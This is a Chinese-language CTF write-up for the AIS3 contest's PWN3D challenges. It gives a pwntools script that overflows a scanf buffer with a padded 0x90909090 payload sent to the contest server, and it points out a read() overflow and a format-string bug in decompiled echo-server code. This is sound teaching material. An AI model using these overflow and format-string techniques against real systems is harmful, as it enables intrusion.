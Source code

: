 flag: `AIS3{dementia}`

# PWN3D
( pwn 的 flag 全忘光了，這邊就純分享解法 & payload 囉 )
## PWN3D1
64 bit ELF, 直接丟進 IDA Pro 就會看到邪惡的 `scanf()` 和一個看起來就是要你蓋它的變數  
分析了一下，發現只要將那個變數蓋成 `0x90909090` 就會噴 flag  
計算好 offset 之後就可以構造 payload 丟給 server 了  
一開始直接用 `python -c` pipe 進 nc 的方式送  
不知道為什麼一直沒有噴 flag 回來  
最後只好乖乖寫 script   
```python
#!/usr/bin/env python

from pwn import *
import sys
import time

HOST = "52.69.163.194"
PORT = 1111
ELF_PATH = ""
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

r = remote(HOST, PORT)

if __name__ == "__main__":

    payload = "A"*28 + "\x90\x90\x90\x90" 
    print r.recvuntil("name: \n")
    r.sendline(payload)
    print r.recv(1024)
    r.close()
```

## PWN3D2
32 bit ELF, 單純的 echo server，輸入啥 input 就印啥出來(嗎?)  
```c
int echo()
{
  int v1; // [sp+18h] [bp-14h]@1
  int v2; // [sp+1Ch] [bp-10h]@1

  v1 = 0;
  v2 = 0;
  read(0, &v1, 0x100u);
  return __printf_chk(1, &v1);
}
```
可以看到 `read()` 那邊有個 overflow 的漏洞  
然後 `__printf_chk()` 那邊也有個 format string 的漏洞  
